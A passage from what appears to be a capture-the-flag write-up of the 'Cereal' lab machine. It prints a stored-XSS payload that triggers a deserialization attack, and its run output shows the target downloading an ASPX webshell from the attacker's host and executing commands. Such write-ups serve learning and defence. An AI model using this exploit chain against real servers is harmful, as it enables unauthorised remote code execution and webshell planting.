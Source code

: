 
The JSON payload is a single key, `json`, with a string of JSON as the value,
just like in legit POSTs. It took me a while to figure out that for the
`DownloadHelper` object to be created, it seems like the request only happens
if I give a valid location to write. I found a directory during enumeration
that I can place on disk at `C:\inetpub\source\uploads`, and that seems like a
logical place that the webserver could write, so I hard-coded that into the
script.

### XSS

With the serialized payload in the database, I’m going to use the XSS to have
Cereal make a request to `/requests/[id]`. I can write a `<script>` tag with
JavaScript in it that is executed. I’ll have it execute a `XMLHttpRequest` to
fetch the malicious object. I’ll need to add the JWT token in as a header as
well.

    
    
    # Send XSS payload
    xss_payload = {"json":"{\"title\":\"[XSS](javascript: document.write%28%22<script>var xhr = new XMLHttpRequest;xhr.open%28'GET', 'https://"+ target + "/requests/" + str(serial_id)+"', true%29;xhr.setRequestHeader%28'Authorization','Bearer "+token+"'%29;xhr.send%28null%29</script>%22%29)\", \"flavor\":\"pizza\", \"color\":\"#FFF\", \"description\":\"test\"}"}
    
    resp = requests.post(f'https://{target}/requests', json=xss_payload, headers=headers, verify=False)
    print(resp.text)
    

### Final Script

The [final script](/files/cereal-rce.py) runs, and making two requests to
Cereal:

    
    
    oxdf@parrot$ python3 rce.py cereal.htb http://10.10.14.15/cmdasp.aspx 0xdf.aspx
    [*] Forging JWT token
    [*] Sending DownloadHelper serialized object
    [+] Object uploaded: {"message":"Great cereal request!","id":9}
    [*] Sending XSS payload
    [+] XSS payload sent: {"message":"Great cereal request!","id":10}
    

A few minutes later, there’s a request for the webshell:

    
    
    10.10.10.217 - - [27/Apr/2021 17:56:17] "GET /cmdasp.aspx HTTP/1.1" 200 -
    

Checking that url, it’s there:

![image-20210427180233487](https://0xdfimages.gitlab.io/img/image-20210427180233487.png)

And it runs commands:

![image-20210427192054343](https://0xdfimages.gitlab.io/img/image-20210427192054343.png)
